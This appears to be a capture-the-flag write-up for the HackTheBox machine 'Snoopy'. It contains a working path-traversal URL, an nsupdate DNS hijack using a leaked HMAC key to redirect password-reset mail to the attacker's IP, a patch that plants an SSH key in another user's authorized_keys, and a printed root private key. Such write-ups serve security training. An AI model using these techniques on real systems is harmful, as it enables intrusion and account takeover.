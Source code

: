 ## Snoopy


```
Nmap scan report for snoopy.htb (10.129.85.155)
Host is up (0.056s latency).
Not shown: 65527 closed tcp ports (conn-refused)
PORT      STATE    SERVICE   VERSION
22/tcp    open     ssh       OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 ee6bcec5b6e3fa1b97c03d5fe3f1a16e (ECDSA)
|_  256 545941e1719a1a879c1e995059bfe5ba (ED25519)
53/tcp    open     domain    ISC BIND 9.18.12-0ubuntu0.22.04.1 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.18.12-0ubuntu0.22.04.1-Ubuntu
80/tcp    open     http      nginx 1.18.0 (Ubuntu)
|_http-title: SnoopySec Bootstrap Template - Index
|_http-favicon: Unknown favicon MD5: FED84E16B6CCFE88EE7FFAAE5DFEFD34
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.18.0 (Ubuntu)
1103/tcp  filtered xaudio
4678/tcp  filtered traversal
43668/tcp filtered unknown
46816/tcp filtered unknown
52961/tcp filtered unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```


Snoppy scan reveals only 22 53 80 as open ports



in the bootstrap website there's an interesting hidden function whichi is GET /download that point on a .zip archive


in the .zip are present a pdf 



Charles Schultz CEO


cschultz@snoopy.htb

sbrown@snoopy.htb  (video!)


hangel@snoopy.htb
lpelt@snoopy.htb

pr@snoopy.htb





found a subdomain with mattermost service

http://mm.snoopy.htb




## Arbitrary File Read trought zip download


in snoopy.htb there's a download?file=announcement.pdf 

```
http://snoopy.htb/download?file=....//....//....//....//....//....//....//....//....//....//etc/bind/named.conf
```



as we can see [here](https://bind9.readthedocs.io/en/v9.18.14/reference.html) we can find the secret of dns server for update 



so we can try point mail.snoopy.htb to our address in order to recieve email reset_token!



we can do it with nsupdate




```
export HMAC='hmac-sha256:rndc-key:BEqUtce80uhu3TOEGJJaMlSx9WT2pkdeCtzBeDykQQA='

nsupdate -y $HMAC

> server 10.10.11.212
> update add mail.snoopy.htb. 900 IN A 10.10.14.233
> show
> send

```

now in mm.snoopy.htb/reset_password 


reset password for one employee.. tried with sbrown and cbrown





## SSH_MITM

In mattermost we can select an interesting function /server_provision 

and select LINUX 2222/tcp


found this creds cb**** : sn00*********ial!!!



`ssh cbrown@snoopy.htb`



## Privesc


sudo -l reveals


```
[sudo] password for cbrown: 
Matching Defaults entries for cbrown on snoopy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User cbrown may run the following commands on snoopy:
    (sbrown) PASSWD: /usr/bin/git apply *
```



so we can try add things in sbrown directory ... and the only nice thing is to trying write my ssh pubkey in `/home/sbrown/.ssh/authorized_keys`

#### .patch
```
diff --git a/cbrown/.bash_history b/cbrown/.bash_history
deleted file mode 120000
index dc1dc0c..0000000
--- a/cbrown/.bash_history
+++ /dev/null
@@ -1 +0,0 @@
-/dev/null
\ No newline at end of file
diff --git a/sbrown/.ssh/authorized_keys b/sbrown/.ssh/authorized_keys
new file mode 100644
index 0000000..e69de29
--- /dev/null
+++ b/sbrown/.ssh/authorized_keys
@@ -0,0 +1 @@
+ssh-rsa AAAAAAAAAAAAAAAzaC1..................MOHycJSTWM/pHlUsG...cDfhYojnjivCpzicSpLq
```


## User flag

so ssh sbrown@snoopy.htb



## ROOT



sudo -l shows clamscan 

Found this on [google](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-clamav-privilege-escalation/)
and also this [exploit](https://raw.githubusercontent.com/josemlwdf/ClamAV_Privilege_Escalation/main/root_exploit.py) on github 


##### extracted ssh root id_rsa


```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
EAAAGBANeetM1N4+5hUFLOVwxiGq7Yf4jFBeltqILFtCjxTfDH3xMc9hvQ/+IKWIyHMmrj
x0q1eH4zRjOOgIsw00CKCujMjeCvDzc2DGlZweiDBvQFbYRLtdZ2M6Kh5gX4ctHKeBGjN4
dydq+68CXtKu5WrP0uB1oDp3BNCSh9AAAAwQDZe7mYQ1hY4WoZ3G0aDJhq1gBOKV2HFPf4
9O15RLXne6qtCNxZpDjt3u7646/aN32v7UVzGV7tw4k/H8PyU819R9GcCR4wydLcB4bY4b
NQ/nYgjSvIiFRnP1AM7EiGbNhrchUelRq0RDugm4hwCy6fXt0rGy27bR+ucHi1W+njba6e
SN/sjHa19HkZJeLcyGmU34/ESyN6HqFLOXfyGjqTldwVVutrE/Mvkm3ii/0GqDkqW3PwgW
atU0AwHtCazK8AAAAPcm9vdEBzbm9vcHkuaHRiAQIDBA==
-----END OPENSSH PRIVATE KEY-----
```


```
chmod 600 id_rsa 
ssh -i id_rsa root@snoopy.htb
```










